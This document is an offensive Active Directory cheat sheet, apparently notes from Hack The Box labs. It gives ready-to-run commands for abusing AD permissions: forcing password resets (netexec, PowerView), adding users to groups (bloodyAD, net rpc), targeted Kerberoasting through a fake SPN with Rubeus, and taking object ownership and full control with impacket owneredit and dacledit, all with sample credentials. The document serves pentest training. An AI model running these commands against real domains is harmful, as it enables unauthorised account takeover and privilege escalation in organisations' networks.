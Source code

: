 #### Password Reset (User-Force-Change-Password)
Linux
```bash
netexec smb 10.10.11.69 -u p.agila -p 'prometheusx-303' -M change-password -o USER=winrm_svc NEWPASS='Pwned123!'
```

Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```
Create `SecureString`Object for user to abuse
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

OTHER
Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Pwned123!' -AsPlainText -Force ) -Verbose

```
#### Adding User to Group (GenericWrite)
Linux
```powershell
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember "Infrastructure" "Alfred"

net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
Add to group
```powershell
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity "MSSP Connect" -Members "KSALINAS" -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
Verify
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select MemberName
```
Cleanup
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

#### Targeted Kerberoast
Let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

Linux
```bash
python3 ~/opt/AD/targetedKerberoast/targetedKerberoast.py -v -d "fluffy.htb" -u p.agila -p 'prometheusx-303' -U Administrator
```

---

Windows
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```

Create fake SPN
```powershell
Set-DomainObject -Credential $Cred -Identity KSALINAS -SET @{serviceprincipalname='notahacker/Pwned'} -Verbose
```
Kerberoast w/ Rubeus
```powershell
.\Rubeus.exe kerberoast /user:KSALINAS /nowrap
```
Cleanup
```powershell
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
```

### WriteOwner

Linux
```bash
impacket-owneredit -action write -new-owner 'Sam' -target 'John' 'tombwatcher.htb'/'sam':'Pwned123!' -dc-ip 10.10.11.72
```

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'Sam' -target 'John' 'tombwatcher.htb'/'sam':'Pwned123!' -dc-ip 10.10.11.72
```


### GenericAll (OU)

Linux
```bash
impacket-dacledit -action write -rights 'FullControl' -inheritance -principal 'John' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'John':'Pwned123!' -dc-ip 10.10.11.72
```